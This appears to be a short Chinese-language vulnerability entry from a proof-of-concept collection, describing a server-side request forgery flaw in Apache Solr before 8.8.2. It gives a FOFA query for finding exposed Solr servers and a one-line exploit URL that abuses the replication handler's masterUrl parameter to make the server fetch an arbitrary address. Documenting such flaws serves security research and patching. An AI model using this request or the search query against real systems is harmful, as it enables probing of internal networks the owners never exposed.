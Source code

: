 # Apache Solr SSRF漏洞

## 漏洞描述

Apache Solr存在服务器端请求伪造漏洞。攻击者可以传递特定参数，使得服务端发起请求，成功利用该漏洞可造成内网信息探测。

## 漏洞影响

```
Apache Solr < 8.8.2
```

## FOFA

```
app="APACHE-Solr"
```

## 漏洞POC

```
# 这里masterUrl为你想访问的链接
http://127.0.0.1:8983/solr/db/replication\?command=fetchindex\&masterUrl=http://xxxx
```


